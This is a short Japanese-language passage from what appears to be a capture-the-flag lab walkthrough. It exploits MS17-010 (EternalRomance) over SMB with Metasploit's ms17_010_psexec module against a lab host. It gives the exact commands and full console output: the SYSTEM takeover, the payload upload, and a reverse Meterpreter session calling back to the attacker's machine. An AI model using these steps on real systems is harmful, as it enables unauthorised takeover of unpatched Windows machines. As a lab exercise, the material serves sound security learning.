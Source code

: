 ```
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

上記に出てきたexploit/windows/smb/ms17_010_psexecを使用してみましょう。

```
msf5 > use exploit/windows/smb/ms17_010_psexec 
msf5 exploit(windows/smb/ms17_010_psexec) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x81e9ada8
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... izDKBpOC.exe
[*] 10.10.10.4:445 - Created \izDKBpOC.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (176195 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \izDKBpOC.exe...
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.4:1074) at 2020-06-04 06:04:01 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM                           
```
非常に簡単に NT AUTHORITY\SYSTEMが得られました。
